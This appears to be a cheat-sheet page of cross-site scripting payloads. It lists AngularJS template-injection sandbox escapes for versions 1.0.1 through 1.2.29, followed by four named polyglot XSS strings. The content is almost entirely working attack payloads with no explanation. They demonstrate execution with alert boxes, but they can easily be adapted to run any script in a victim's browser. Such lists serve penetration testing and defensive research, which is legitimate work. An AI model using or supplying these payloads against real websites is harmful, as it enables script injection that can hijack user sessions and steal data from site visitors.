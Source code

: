 Angular 1.2.24 - 1.2.29
```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

Angular 1.2.19 - 1.2.23
```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

Angular 1.2.6 - 1.2.18
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

Angular 1.2.2 - 1.2.5
```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

Angular 1.2.0 - 1.2.1
```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

Angular 1.0.1 - 1.1.5
```
{{constructor.constructor('alert(1)')()}}
```

## Polyglot XSS
Polyglot XSS - 0xsobky
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed
```
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot XSS - Mathias Karlsson
```
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
